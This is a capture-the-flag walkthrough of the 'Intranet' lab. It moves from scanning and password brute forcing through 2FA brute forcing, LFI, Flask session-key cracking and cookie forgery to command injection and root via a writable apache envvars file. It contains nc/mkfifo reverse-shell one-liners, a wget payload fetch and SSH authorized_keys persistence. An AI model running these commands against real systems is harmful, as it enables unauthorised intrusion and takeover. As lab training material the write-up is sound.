# Intranet

<br />

### Description

The web application development company SecureSolaCoders has created their own intranet page. The developers are still very young and inexperienced, but they ensured their boss (Magnus) that the web application was secured appropriately. The developers said, "Don't worry, Magnus. We have learnt from our previous mistakes. It won't happen again". However, Magnus was not convinced, as they had introduced many strange vulnerabilities in their customers' applications earlier.

Magnus hired you as a third-party to conduct a penetration test of their web application. Can you successfully exploit the app and achieve root access?

<br /><br />

## Scanning

<br />

**Port scanning**

```bash
root@ip-10-10-237-59:~# nmap 10.10.21.48 

Starting Nmap 7.60 ( https://nmap.org ) at 2024-07-03 10:35 BST
Nmap scan report for ip-10-10-21-48.eu-west-1.compute.internal (10.10.21.48)
Host is up (0.0039s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
7/tcp    open  echo
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 02:32:DF:8D:73:7D (Unknown)
```


<br /><br />

**Aggressive port scanning**

```bash
root@ip-10-10-237-59:~# nmap 10.10.21.48 -p7,21,22,23,80,8080 -A

Starting Nmap 7.60 ( https://nmap.org ) at 2024-07-03 10:35 BST
Nmap scan report for ip-10-10-21-48.eu-west-1.compute.internal (10.10.21.48)
Host is up (0.00040s latency).

PORT     STATE SERVICE    VERSION
7/tcp    open  echo
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
23/tcp   open  telnet     Linux telnetd
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open  http-proxy Werkzeug/2.2.2 Python/3.8.10
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Wed, 03 Jul 2024 09:36:04 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Wed, 03 Jul 2024 09:36:04 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 199
|     Location: /login
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Wed, 03 Jul 2024 09:36:04 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
```

<br /><br />

## Enumeration

**port 80 enumeration**

the website was underconstruction and there was not anything useful.


<br /><br />

**Directory bruteforce on port 80**

```bash
root@ip-10-10-237-59:~# gobuster dir -u http://10.10.21.48 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.21.48
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/07/03 11:02:36 Starting gobuster
===============================================================
/server-status (Status: 403)
===============================================================
2024/07/03 11:03:10 Finished
```


<br /><br />

**port 8080 enumeration**

From robots.txt it was a comment saying `try harder`. Nothing else.




<br /><br />


**Directory bruteforce on port 8080**

```bash
root@ip-10-10-237-59:~# gobuster dir -u http://10.10.21.48:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.21.48:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/07/03 11:02:57 Starting gobuster
===============================================================
/home (Status: 302)
/login (Status: 200)
/admin (Status: 302)
/external (Status: 302)
/sms (Status: 302)
/logout (Status: 302)
/application (Status: 403)
/internal (Status: 302)
/temporary (Status: 403)
===============================================================
2024/07/03 11:29:53 Finished
===============================================================
```

<br /><br />


### Flag 1

<br />

**From the page source of `/login`, I found an email and a senior developer name**.

email: devops@securesolacoders.no

name: andres

<br />



<br /><br />


**I tried to login with the admin email, but I got `Invalid Password` . So the admin account exists. Also, I got the same result when I tried to login with `devops` and `Andres.`**



<br /><br />

**When I tried to enter any email that was not found, I got `Invalid username`**



<br /><br />

**So till now, we had three valid accounts**

```
admin@securesolacoders.no
devops@securesolacoders.no
anders@securesolacoders.no
```

<br />

**I performed bruteforce with `rockyou` and some authetication bypass techniques, but I could not bypass the login page.**

>Hint: Think about the information you have gathered so far from the web application - usernames, company name, etc. You might want to generate a password list or make educated guesses.


<br /><br />

**So we need to generate a custom wordlist.**

we can use `crunch` to generate a wordlist based on rules we define. but i used john the ripper for this task

<br />

**The words we can guess the password through them.**

```
anders
devops
admin
securesolacoders
```

<br />

**From `/opt/john/john.conf ` add the new rule**

```
[List.Rules:Intranet]
Az"[0-9]"
Az"[0-9][0-9]"
Az"[0-9][0-9][0-9]"
Az"[0-9][0-9][0-9][0-9]"
```

<br />

You do not need to add special characters to your rules because when I tried to login with a password that contained special characters, I got a hacking attempt with illegal characters in the password

<br /><br />


<br /><br />


**Generate the wordlist**

```bash
root@ip-10-10-237-59:~/Desktop# john -wordlist:words.txt -rules:intranet -stdout > wordlist.txt  
```

<br />

**Bruteforce with hydra**

```
root@ip-10-10-237-59:~/Desktop# hydra -I  -L users.txt -P custom-wordlist.txt 10.10.21.48 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error"

Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-07-03 12:55:34
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78472 login tries (l:1/p:78472), ~4905 tries per task
[DATA] attacking http-post-form://10.10.21.48:8080//login:username=^USER^&password=^PASS^:Error
[8080][http-post-form] host: 10.10.21.48   login: anders@securesolacoders.no   password: se***************
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-07-03 12:55:37
```

<br />


<br />

**Or you can save the request from burp and bruteforce with ffuf**


<br /><br />

**Add `W1`, `W2 ` to username, password because we will use multiple wordlist**. 





<br /><br />

```bash
root@ip-10-10-237-59:~/Desktop# ffuf  -request req -request-proto http -w ./users.txt:W1,./custom-wordlist.txt:W2 -fw 296
```

<br />



<br /><br />


**Login with the credientials.**

You will get Flag 1. Also, there was a two-factor authentication. So we need to bypass it.




<br /><br />

---

### Flag 2

<br />

**The 2FA code was four characters and there was not rate limit. so we can easily bypass it by generating a file containing numbers from 0000 to 9999.**

```bash
root@ip-10-10-237-59:~/Desktop# seq -f "%04g" 0 9999 > 2fa.txt
```

<br />

**Use ffuf to get the correct 2FA code**

**Note:** The 2FA code was dynamically generated. So each time, you will log in. You need to bruteforce the code to get the new one.

```bash
root@ip-10-10-237-59:~/Desktop# ffuf  -request sms.txt -request-proto http -w ./2fa.txt -fw 168
OR
root@ip-10-10-237-59:~/Desktop# ffuf  -request sms.txt -request-proto http -w ./2fa.txt -fc 200
```

<br /><br />





<br /><br />

**Using the 2FA code, Login and get the second flag**




<br /><br />

----

### Flag 3

 **The internal page with the `Update` button, which update the news feed**





<br /><br />

**The `news` parameter is vulnerable to LFI**


<br /><br />

**I tried some tichniques to get an RCE from LFI (ex. log poisioning). but the one that worked with me is through `/proc/self/stat`**

the Linux /proc/ directory holds information about different processes. Each process is distinguished by its PID, The /proc directory contains one subdirectory for each process running on the system, which is named after the process ID (PID). Concurrently, each of these directories contains files to store information about the respective process. 


inside of /proc/self is a series of files representing various pieces of information about the process. The files relevant to us are

- /proc/self/environ
- /proc/self/stat
- /proc/self/cmdline
- /proc/self/fd.


**/proc/self/stat**

This file contains the process ID (PID) of the current process, typically the web server. in our case it was apache server that was running a flask application.




<br /><br />

 **/proc/self/environ**

This entity is a file containing all environment variables within the context of the current process. In older versions of Apache, the user agent string of the browser accessing a page would be stored as an environment variable. The attacker sets his user agent string to a value containing executable code and then exploits a local file inclusion vulnerability to include /proc/self/environ. Apache then stores the user agent string containing code to an environment variable, which in turn is visible in /proc/self/environ, which is then included by the web server, executing the code.

contains environmental variables, and if we can access it as a non-root user (like www-data usually found on web servers), we can use it to get a shell.

we could say that */proc/self/environ* is — roughly- equal to */proc/<apache_pid>/environ*.


<br /><br />


<br /><br />

**From the LFI you can get the devops user flag**

<br />


<br /><br />

**/proc/self/cmdline**

This entity stores the command-line invocation of the current process.

/proc/self/cmdline is not exploitable to achieve code execution but can be useful in finding the location of server configuration files and other sensitive locations if they were passed to Apache through the command line.

The source code of the web application was in the home directory of devops user `/home/devops/app.py`

<br />



<br /><br />


**Now we can retrive the `app.py` via the `LFI ` and get the thrid flag in the source code. **

<br />




<br /><br />

----

### Flag 4

<br />

**From the source code,** we are able to see how the `JWT` session key is generated. It's a key containing the string `secret_key_` concatenated with a random number between `100000` and `999999`. With this information, we are able to generate a wordlist and crack the secret key.

```bash
key = "secret_key_" + str(random.randrange(100000,999999))
app.secret_key = str(key).encode()
```

<br />

**Genrate a file containg "secret_key_" followed by numbers from 100000 to 999999.**

```bash
#!/bin/bash

# Specify the output filename
OUTPUT_FILE="sequential_keys.txt"

# Starting number
START_NUMBER=100000

# Ending number
END_NUMBER=999999

# Loop through the sequence
for ((i=$START_NUMBER; i<=$END_NUMBER; i++)); do
  # Echo the line with "secret_key_" and the current number
  echo "secret_key_$i" >> "$OUTPUT_FILE"
done

# Print confirmation message
echo "Generated lines with secret_keys and sequential numbers from $START_NUMBER to $END_NUMBER in $OUTPUT_FILE"
```

<br />

**Crack the secret key with `flask-unsign` using the generated file and our jwt**

```bash
root@ip-10-10-138-166:~/Desktop# flask-unsign --unsign --wordlis sequential_keys.txt --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZoV9Gw.NbGDTdlVJWRSNlVpMYvMKYHsdzY
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 575488 attempts
'secret_key_675131'

```

<br />


**Note:** the secret key is dynamically generated. so it may be different with you.


<br /><br />

**From app.py, we need to send a POST request to `/admin` with a valid admin jwt (logged_in=true and username=admin)**

```python
@app.route("/admin", methods=["GET, POST"])
def admin():
        if not session.get("logged_in"):
                return redirect("/login")
        else:
                if session.get("username") == "admin":

                        if request.method == "POST":
                                os.system(request.form["debug"])
                                return render_template("admin.html")

                        current_ip = request.remote_addr
                        current_time = strftime("%Y-%m-%d %H:%M:%S", gmtime())

                        return render_template("admin.html", current_ip=current_ip, current_time=current_time)
                else:
                        return abort(403)
```


<br /><br />

**Using `flask-unsign`, I signed a new jwt with username=admin to access the admin dashboard** 

```bash
flask-unsign --decode  --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZoV9Gw.NbGDTdlVJWRSNlVpMYvMKYHsdzY


flask-unsign — sign — cookie "{'logged_in': True, 'username': 'admin'}" — secret 'secret_key_257502'
```

<br />


<br />

**Update the jwt and get the forth flag from the admin dashboard**


<br /><br />

---

### User 1 flag

with the os.system() call. This gets its parameters from a form. But we are not dependent on this form and are able to send a post request with a value for debug to create a reverse shell. 

<br />

**Start the netcat listner. and ssing `curl`, providing the previously created admin jwt, and the reverseshell in the debug parameter we could have a shell** 

get the user 1 flag

```bash
root@ip-10-10-138-166:~# curl 'http://intranet.thm:8080/admin' -X POST -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.ZoWCUw.zvZqlIEOMuipYViwerq334HwfFY' --data-raw 'debug=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.138.166 4242 >/tmp/f'


root@ip-10-10-138-166:~# nc -nvlp 4242
```

<br />


<br /><br />

---

### User 2 flag

**From `ps aux` the user `andres` was running apache service that was running on port 80**

go to `/var/www/html` and check the index.html. you will see that this was the  underconstruction website.

<br />

**Configure and upload the reverse shell**

```bash
wget http://10.10.138.166:8000/php-reverse-shell.php
```

<br />


<br />

**Start the listener and execute the shell**

get the user2 flag



<br /><br />


**Add our ssh key to the authorized_keys file to access the machine via ssh as user anders.**

Now we will go to to /.ssh and there will be file called “authorized_keys”. This key indicates which device is assigned to ssh server on the exact user. Put your public key into “authorized_keys” file:

````bash
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfVFH0vXDlMlc/6Vfsl2CP53m3JEIDa5ps5vkPmnfidTTqoTcT5n9hkBvPmqm+ztnV5cdZnhI3J746wBA+7yOwVnWwMM6SnaamrrpQsobJ/KGqeofRz3sUVUgBoYu9pRyMZBoHeOWJZ8GKwZAXhcXIioM/Dlr4reg8kvQd2htXrUCdzzPHmHaUy9sfNQSqzmyr4PjFsv3Mjv7T25+FOuandO5zVIecx4hlZmlGgvoB4uiB0Z5Nb4bW/uoiDlmU4L7usOlheBMfQffov7zEaloX84ttz0SaADECqYg4rP9xqQgRPqEic+d0zI78npqCYgdNaG2getN/q/bfpTG8E3BB root@ip-10-10-138-166" > authorized_keys
$ 


$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfVFH0vXDlMlc/6Vfsl2CP53m3JEIDa5ps5vkPmnfidTTqoTcT5n9hkBvPmqm+ztnV5cdZnhI3J746wBA+7yOwVnWwMM6SnaamrrpQsobJ/KGqeofRz3sUVUgBoYu9pRyMZBoHeOWJZ8GKwZAXhcXIioM/Dlr4reg8kvQd2htXrUCdzzPHmHaUy9sfNQSqzmyr4PjFsv3Mjv7T25+FOuandO5zVIecx4hlZmlGgvoB4uiB0Z5Nb4bW/uoiDlmU4L7usOlheBMfQffov7zEaloX84ttz0SaADECqYg4rP9xqQgRPqEic+d0zI78npqCYgdNaG2getN/q/bfpTG8E3BB root@ip-10-10-138-166
````

<br /><br />

**connect via ssh**

```bash
root@ip-10-10-138-166:~/.ssh# ssh anders@10.10.127.138 -i id_rsa
```

<br /><br />

---


### root flag

<br />

**From `sudo -l`, the user andres was  able to restart the apache2 service without the root password with sudo permissions. ** 


<br /><br />

**Check the configurations files, you will see a file called `envvars` that has write permissions for other, So we can edit the file to get a shell**


<br /><br />


**add your reverse shell in the envvars file and Start the netcat listener and restart the apache2 service**

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.138.166 1337 >/tmp/f
```

**Get the root flag**


<br /><br />


----

### References

- https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-proc-self-environ
- https://medium.com/@omarwhadidi9/10-ways-to-get-rce-from-lfi-f2bb696b67f6
- https://github.com/Paradoxis/Flask-Unsign
